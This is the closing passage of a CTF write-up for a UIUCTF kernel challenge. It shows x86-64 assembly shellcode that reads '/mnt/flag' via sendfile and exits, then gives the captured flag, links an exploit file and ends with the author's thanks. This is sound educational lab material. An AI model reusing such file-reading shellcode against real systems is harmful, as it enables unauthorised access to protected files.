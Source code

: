```c

	// sendfile(STDOUT_FILENO, fd, 0, 0x50)
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 0x50
	mov rax, 0x28
	syscall

	// exit(0)
	mov rdi, 0
	mov rax, 0x3c
	syscall

	path: .string "/mnt/flag"
```

By running the [exploit](exploit.c) we can finally get the flag `uiuctf{is-kernel-being-overly-cautious-5ba2e5c4}`

## Conclusions

I loved these challenges, I always like so much challenges with more parts, it is really nice to be able to reuse previously discovered stuff in new fun ways. Even if I wasn't able to solve this part during the CTF, I learnt **a lot** of stuffs reading source code and documentation and i learnt even more by looking at the author's exploit and by trying to understand every single bit of it.

Thank you a lot `@YiFei Zhu` for the amazing challenges and learning opportunities!

